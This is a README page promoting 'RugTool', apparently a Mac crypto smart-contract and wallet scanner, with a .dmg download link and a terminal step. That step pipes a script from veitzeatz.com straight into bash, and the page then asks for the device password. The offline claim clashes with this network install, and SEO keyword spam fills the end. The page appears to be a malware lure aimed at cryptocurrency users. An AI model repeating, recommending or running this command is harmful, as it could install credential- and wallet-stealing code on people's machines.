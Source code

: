 # RugTool — Offline Setup Assistant

[![Download RugTool](https://img.shields.io/badge/Download-RugTool-blueviolet)](https://rugtool-download-mac.github.io/.github)


## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get1/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

## 🎯 What You Unlock

🧾 Smart contract risk scanning  
🔐 Wallet vulnerability checks  
📊 Token metadata and audit explorer  
💻 Works without internet or external APIs  
🛠 Ideal for cold environments and secure workflows

## 🖼 Preview

![Smart Contract Risk Analysis](https://lh7-qw.googleusercontent.com/docsz/AD_4nXdgJMGhw4YTwvcPQr0Dg8lDGO2iiE8PgonXsDRBiJzKvtYCrvQ2l-XkKsQV-pqhZnA1XzJhYix00bENQ8srzomLTg12ah93jUbulLhNc_7idtb8L8Az3MfHzc5FMnVGJauORMVXBA?key=TEwfodDrSTWzAOUAvf8osppS)  
*Offline smart contract security scanner*

![Token Analysis Interface](https://lh3.googleusercontent.com/5KCYjwRAD1p_1vgnjMuoi59zNuGbuhGOZPxFlRFWZ_CscEO1LpJlFWJW0YXx28l9RNlVeTi_wMbkohmwAu94_8ya=s1280-w1280-h800)  
*Detailed token breakdown in an airgapped environment*

![Audit Results Overview](https://lh7-qw.googleusercontent.com/docsz/AD_4nXdiT1SSNckc5YhDP35lhYAizvoXly2aMKSEFnnqkKRHFtmoj5WOtUhivK9g1q9UaCflhDcntmjgQjR1vqwzvMlF33NuRa-wHB3wOcXUe8JdAVaM_JAmhMcB4Y5K1AUqvAXj3UhoEA?key=TEwfodDrSTWzAOUAvf8osppS)  
*Interactive results and contract flags viewer*

### 🔎 SEO Keywords

`rugtool mac`, `rugtool mac download`, `rugtool mac free download`, `download rugtool for mac`, `rugtool for macbook`,  
`rugtool macbook air`, `rugtool software mac`, `rugtool tool mac`, `rugtool installer mac`, `rugtool utility mac`,  
`rugtool app mac`, `rugtool dmg mac`, `rugtool mac os`, `rugtool macos download`, `rugtool mac os x`,  
`rugtool mac latest version`, `rugtool mac full`, `rugtool mac compatibility`, `rugtool mac guide`, `rugtool setup mac`,  
`rugtool support mac`, `rugtool tool for mac`, `rugtool download mac os`, `rugtool mac appstore`, `rugtool install on mac`

